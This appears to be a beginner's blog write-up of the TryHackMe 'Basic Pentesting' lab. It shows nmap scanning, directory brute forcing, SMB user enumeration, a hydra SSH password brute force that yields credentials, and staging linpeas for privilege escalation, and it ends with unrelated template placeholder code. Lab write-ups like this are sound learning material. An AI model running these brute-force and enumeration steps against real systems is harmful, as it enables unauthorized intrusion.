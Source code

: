 ```yaml
---
layout: post
title:  "TryHackMe: Basic Pentesting"
date:   2025-03-08 17:33:44 -0300
categories: TryHackMe, CTF
tags: nmap, gobuster, enum4linux, hydra, john the ripper, ssh,
author: 1
description: My first CTF, Basic Pentesting was a straightforward room...
media_subpath: /path/to/image
---
```

Room Link: https://tryhackme.com/room/basicpentestingjt

It's my first challenge, lets do it!
I'm following the video and pausing trying to solve my way.

Ok, im stucked I dont know how to connect the attacker's machine to the target's machine
Target's IP: `10.10.126.255`
Oh I don't need to connect to the attacker's machine yet, I just need to run nmap 
```shell
root@ip-10-10-192-252:~/Desktop# nmap -sC -sV -oN nmap/initial 10.10.126.255

```
Ports open:
```
22
80
139
445
8009
8080
```
There's a web site running on port 80, lets see whats there!
Oh, how to access a web-site by the terminal? I've it noted somewhere, can't find... maybe its wget? It's not!! Should be `curl` (I wont seach on Internet, only using my notes.) Worked. ez.
```shell
root@ip-10-10-192-252:~/Desktop# curl 10.10.126.255
<html>

<h1>Undergoing maintenance</h1>

<h4>Please check back later</h4>

<!-- Check our dev note section if you need to know what to work on. -->


</html>

```
(btw, wget worked followed by a `cat`, but i didnt want to download it)

Following the video, it says to use gobuster to bruteforce the directorys. Ok but I don't have the wordlist...

==Gobuster is an aggressive scan. Its noisy and is noticed. Only use against systems you have permissions to scan against==

Ok I'll need to Internet (Grok) now...[GoBuster Tutorial](https://hackertarget.com/gobuster-tutorial/)
[WordList](https://github.com/danielmiessler/SecLists)
GUESS WHAT!? The THM machine already had a worldlist, I just looked around the CLI, changing directories... and found a lot of worldlists.

```shell
root@ip-10-10-192-252:~/Desktop/Tools/wordlists# ls
dirb       fasttrack.txt   PythonForPentesters  SecLists
dirbuster  MetasploitRoom  rockyou.txt
```
Found the same wordlist as used in the video...

`directory-list-2.3-medium.txt`

```
root@ip-10-10-192-252:~/Desktop# gobuster dir -w /root/Desktop/Tools/wordlists/SecLists//Discovery/Web-Content/directory-list-2.3-medium.txt -u 10.10.126.255
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/development          (Status: 301) [Size: 320] [--> http://10.10.126.255/development/]
/server-status        (Status: 403) [Size: 301]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
```

Stucked on how to linux enumeration, clicked on Hint and got to use "SMB", lets find it!
Command not found.
Internet time, found it: [How to Enumerate SMB with Enum4linux & Smbclient](https://null-byte.wonderhowto.com/how-to/enumerate-smb-with-enum4linux-smbclient-0198049/)
Discovered some stuffs, SMB is a protocol and Unix systems use SMB through Samba!
I saw Samba is running but didnt know what was that, now I have a clue!
SMB usually works on ports: 139 and 445, we have both oppened!

"Enum4linux is a tool used to enumerate SMB shares on both Windows and Linux systems."


```
root@ip-10-10-192-252:~/Desktop/Tools# enum4linux -U 10.10.126.255
```

Did not return useful information, so lets try:
```shell
root@ip-10-10-192-252:~/Desktop/Tools# enum4linux -a 10.10.126.255

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)


```

Here we go!

```shell
root@ip-10-10-192-252:~/Desktop/Tools# hydra -l jan -P /root/Desktop/Tools/wordlists/rockyou.txt ssh://10.10.126.255
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-07 18:00:29
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.126.255:22/
[STATUS] 176.00 tries/min, 176 tries in 00:01h, 14344222 to do in 1358:22h, 16 active
[STATUS] 133.00 tries/min, 399 tries in 00:03h, 14343999 to do in 1797:30h, 16 active
[22][ssh] host: 10.10.126.255   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found

```
`jan:armando`
Now I logged in the ssh, used `cd ..` and access kay directory but access denied to `cat` the files.
So I need to escalate privilege.
https://github.com/Keartland/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/README.md

Oh, forget the THM machine doesnt have Internet connection, so I looked back at the folders and found: `/root/Desktop/Additional Tools/PEAS/linPEAS/linpeas.sh`
Let's follow the video and pass this file to Jan's directory using scp.
`scp /root/Desktop/Additional Tools/PEAS/linPEAS/linpeas.sh jan@10.10.126.255:/dev/shm`
shm = shared memory

`jan@basic2:/dev/shm$ chmod +x linpeas.sh`
`jan@basic2:/dev/shm$ ./linpeas.sh | tee linlog.txt`

less -r /dev/shm/linpeas.txt read with colors


Ok, the file doesnt look completed and I cant go up to see all the content. Actually the 'cat linlog.txt' may seen not working, some mad stuff happened! The Terminal got craaazzzzy after I tried to use `less` and `cat` and `more` to read the full file o.O :

![img-description](/path/to/image)
_Image Caption_


{% highlight ruby %}
def print_hi(name)
  puts "Hi, #{name}"
end
print_hi('Tom')
#=> prints 'Hi, Tom' to STDOUT.
{% endhighlight %}